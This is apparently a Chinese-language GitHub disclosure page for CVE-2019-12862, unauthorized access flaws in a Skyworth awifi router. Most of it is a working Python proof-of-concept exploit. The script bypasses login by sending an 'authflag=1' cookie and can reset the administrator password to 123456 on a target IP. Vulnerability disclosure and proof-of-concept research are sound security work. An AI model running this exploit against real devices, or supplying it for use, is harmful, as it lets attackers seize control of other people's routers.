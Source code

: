 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|天翼创维awifi路由器存在多处未授权访问漏洞|2019-06-01|H4lo|[http://www.skyworth.com/](http://www.skyworth.com/)|[http://www.skyworth.com/](http://www.skyworth.com/)|Boa/0.94.14rc21|[CVE-2019-12862](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12862)|

### 漏洞详情PDF：[详情](POC_Details/1.天翼创维awifi路由器存在多处未授权访问漏洞.pdf)

### POC实现代码如下：  

``` python
#coding: utf-8
#__author__: H4lo
import requests
import sys


payload = "authflag=1"
UA = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.75 Safari/537.36"
headers = {
    "User-Agent": UA,
    "Cookie": payload
}

def exp(ip):
    info = """1. Login with no password\n2. Change administrator's password\n"""
    print info
    op = int(raw_input("Enter the options:"))
    if op == 1:
        url = "http://" + str(ip)+"/home.htm"
        try:
            res = requests.get(url,headers=headers,timeout=5)
            if "title.htm" in res.text:
                print "[+] The router is vulnerable"
            else:
                print "[-] The router is not vulnerable"
        except Exception as e:
            print str(e)
            
    elif(op == 2):
        url = "http://" + str(ip) + "/boafrm/formAwifiSwitchSetup"
        data = {
            "olduserpass":"1",
            "newpass":"123456",
            "confirmnewpass":"123456",
            "submit-url":"/password.htm"
        }
        try:
            res = requests.post(url=url,headers=headers,data=data,timeout=5)
            if "restartNow" in res.text:
                print "[+] Password had be changed to 123456"
            else:
                print "[-] Some error!"
        except Exception as e:
            print str(e)
            
    else:
        print "error options!"
if __name__ == '__main__':
    ip = sys.argv[1]
    exp(ip)
```

---

### POC截图效果如下：

![POC运行截图](img/1.png)
